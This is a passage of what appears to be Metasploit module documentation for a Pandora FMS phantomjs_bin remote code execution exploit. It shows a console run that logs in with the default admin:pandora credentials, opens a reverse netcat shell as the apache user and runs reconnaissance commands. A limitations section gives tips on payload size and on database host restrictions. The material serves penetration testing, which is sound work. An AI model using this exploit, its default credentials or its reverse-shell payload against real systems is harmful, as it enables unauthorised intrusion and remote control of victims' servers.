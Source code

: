 ```msf
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Found phantomjs_bin RCE. Pandora FMS version v7.0NG.738
[*] Trying to log in with admin credentials admin:pandora at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing Tiny Reverse Netcat Command (use THIS for versions <= v738) for cmd/unix/reverse_netcat_gaping
[*] Command shell session 3 opened (192.168.201.8:4444 -> 192.168.201.6:52784) at 2025-04-05 11:38:47 +0000
[+] Payload is successful removed from phantomjs_bin path configuration.

id
uid=48(apache) gid=48(apache) groups=48(apache)
uname -a
Linux localhost.localdomain 3.10.0-957.5.1.el7.x86_64 #1 SMP Fri Feb 1 14:54:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
pwd
/var/www/html/pandora_console
```

## Limitations
In older versions of Pandora FMS, you might run into error 'Unable to login from this host due to policy' if you try to connect
to the MySQL database with the default database credentials.
This is caused by the restrictive host settings at the MySQL database which is default set to `localhost` and `127.0.0.1`.
You can check this with the SQL command below if you have local access to the database.
```
SELECT host FROM mysql.user WHERE user = "pandora";
+-----------+
| host      |
+-----------+
| 127.0.0.1 |
| localhost |
+-----------+
```
In newer versions of Pandora FMS, this has been changed to '%' which allow any host to connect to the database.
Another restriction is the payload size for versions <= v7.0NG.738 where the payload size is restricted to a maximum
of 100 bytes. Please use the `Tiny Netcat Command` option get a reverse shell.
